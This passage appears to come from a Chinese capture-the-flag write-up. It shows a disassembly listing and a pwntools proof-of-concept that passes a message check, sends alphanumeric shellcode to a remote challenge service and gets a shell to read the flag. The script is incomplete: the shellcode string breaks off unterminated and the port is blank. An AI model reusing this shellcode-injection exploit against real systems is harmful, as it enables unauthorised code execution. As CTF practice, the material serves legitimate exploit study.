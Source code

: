 ```
dec edx
xor byte ptr ds:[eax+0x30],ch
popad
xor byte ptr ds:[edi],dh
xor byte ptr ds:[eax+eax],dh
add bh,bh
add byte ptr ds:[eax],al
add bh,bh

pop eax
inc ecx
```
然后即可写出最终的poc
```python
#!/usr/bin/env python
#coding=utf-8

from pwn import*

ip = ""
port = 
io = remote(ip,port)
libc = ELF('./libc-2.23.so')
io.recvuntil(">>>")
io.sendline('opt:1\r\nmsg:ro0t\r\n')    ##绕过1
shellcode = 'Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
io.recvuntil(">>>")
io.sendline('opt:2\r\nmsg:'+shellcode+'\r\n')    #poc
io.interactive()
```
经过测试，成功进入交互模式，使用`cat flag`即可得到flag
